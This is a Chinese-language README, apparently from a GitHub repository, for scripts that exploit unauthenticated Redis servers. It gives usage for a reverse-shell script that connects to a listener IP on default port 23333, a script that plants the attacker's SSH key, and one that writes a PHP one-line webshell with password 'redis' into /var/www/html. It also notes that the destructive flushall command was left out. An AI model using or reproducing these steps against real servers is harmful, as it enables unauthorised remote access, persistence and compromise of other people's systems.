

# redis未授权访问利用
需要本地先提前安装好redis服务
## 演示



## shell.sh

用法

```
./shell.sh [redis-ip] [redis端口] [接收shell的ip]
```

默认端口为23333

## ssh.sh

用法

```
./ssh.sh [redis-ip] [redis端口]
```

要提前在本地`.ssh`目录用`ssh-keygen -t rsa`生成一对密钥

然后用私钥登录即可


## webshell.sh

用法

```
./webshell.sh [redis-ip] [redis端口]
```

会在`/var/www/html`目录下生成shell.php一句话，默认密码redis


## 一些问题

由于`flushall`破坏性太大，没写入脚本中。

在原先存在一些数据的时候会影响成功率，需要的自行添加
